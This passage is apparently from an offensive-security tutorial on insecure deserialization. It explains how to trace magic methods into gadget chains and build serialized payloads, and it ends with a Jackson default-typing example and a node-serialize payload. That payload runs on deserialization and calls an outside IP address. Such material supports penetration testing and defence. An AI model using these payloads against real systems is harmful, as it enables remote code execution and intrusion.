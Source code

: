 
### Creating your own exploit
           
When off-the-shelf gadget chains and documented exploits are unsuccessful, you will need to create your own exploit.       
           
To successfully build your own gadget chain, you will almost certainly need source code access.
The first step is to study this source code to identify a class that contains a magic method that is invoked during deserialization. Assess the code that this magic method executes to see if it directly does anything dangerous with user-controllable attributes.
This is always worth checking just in case.       
           
If the magic method is not exploitable on its own, it can serve as your "kick-off gadget" for a gadget chain.
Study any methods that the kick-off gadget invokes.
Do any of these do something dangerous with data that you control? If not, take a closer look at each of the methods that they subsequently invoke, and so on.       
           
Repeat this process, keeping track of which values you have access to, until you either reach a dead end or identify a dangerous sink gadget into which your controllable data is passed.       
           
Once you've worked out how to successfully construct a gadget chain within the application code, the next step is to create a  serialized object containing your payload.

This is simply a case of studying the class declaration in the source code and creating a valid serialized object with the appropriate values required for your exploit. This is relatively simple when working with string-based serialization formats.       
           
Working with binary formats, such as when constructing a Java deserialization exploit, can be particularly cumbersome.
When making minor changes to an existing object, you might be comfortable working directly with the bytes. However, when making more significant changes, such as passing in a completely new object, this quickly becomes impractical.

It is often much simpler to write your own code in the target language in order to generate and serialize the data yourself.         
When creating your own gadget chain, look out for opportunities to use this extra attack surface to trigger secondary vulnerabilities.   

By carefully studying the source code, you can discover longer gadget chains that potentially allow you to construct high-severity attacks, often including remote code execution.

### Examples

Insecure Jackson deserialization example: 

```java
ObjectMapper mapper = new ObjectMapper();
mapper.enableDefaultTyping();
String json = "["com.sun.org.apache.xml.internal.utils.SerializableLocatorImpl", {}]"; 
try { 
    mapper.readValue(json, Object.class);
} catch (IOException e) { 
    e.printStackTrace(); 
}
```

Insecure node deserialization example: 

```javascript
#!/usr/bin/node 

var serialize = require('node-serialize'); 
var x = '{"rce":"_$$ND_FUNC$$_function (){var http = require(\'http\'); http.get(\'http://18.185.172.127:42024/hacked\')}()"}'
serialize.unserialize(x);
```
